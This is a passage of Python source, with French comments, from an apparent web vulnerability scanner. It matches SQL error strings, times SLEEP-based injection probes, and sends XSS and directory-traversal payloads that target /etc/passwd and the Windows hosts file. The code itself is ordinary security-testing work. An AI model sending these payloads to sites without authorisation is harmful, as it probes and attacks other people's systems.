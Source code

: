 ```python
                        'ORA-01756',
                        'Microsoft OLE DB Provider',
                        'PostgreSQL query failed',
                        'SQLite/JDBCDriver'
                    ]
                    
                    for error in sql_errors:
                        if error.lower() in response.text.lower():
                            self.log_vulnerability(
                                'SQL Injection',
                                f"{url}?{param}={payload}",
                                f"Erreur SQL détectée avec payload: {payload}",
                                'High'
                            )
                    
                    # Détection par délai (time-based)
                    if 'SLEEP' in payload and response_time > 4:
                        self.log_vulnerability(
                            'Time-based SQL Injection',
                            f"{url}?{param}={payload}",
                            f"Délai de {response_time:.2f}s détecté",
                            'High'
                        )
                        
                except requests.RequestException as e:
                    print(f"Erreur lors du test SQL: {e}")
    
    def test_xss(self, url, params):
        """Test de Cross-Site Scripting"""
        xss_payloads = [
            '<script>alert("XSS")</script>',
            '"><script>alert("XSS")</script>',
            "javascript:alert('XSS')",
            '<img src=x onerror=alert("XSS")>',
            '<svg onload=alert("XSS")>'
        ]
        
        for param in params:
            for payload in xss_payloads:
                test_params = params.copy()
                test_params[param] = payload
                
                try:
                    response = self.session.get(url, params=test_params)
                    
                    # Vérifier si le payload est reflété sans échappement
                    if payload in response.text:
                        self.log_vulnerability(
                            'Reflected XSS',
                            f"{url}?{param}={payload}",
                            f"Payload XSS reflété: {payload}",
                            'High'
                        )
                        
                except requests.RequestException as e:
                    print(f"Erreur lors du test XSS: {e}")
    
    def test_directory_traversal(self, url, params):
        """Test de Directory Traversal"""
        traversal_payloads = [
            '../../../etc/passwd',
            '..\\..\\..\\windows\\system32\\drivers\\etc\\hosts',
            '....//....//....//etc/passwd',
```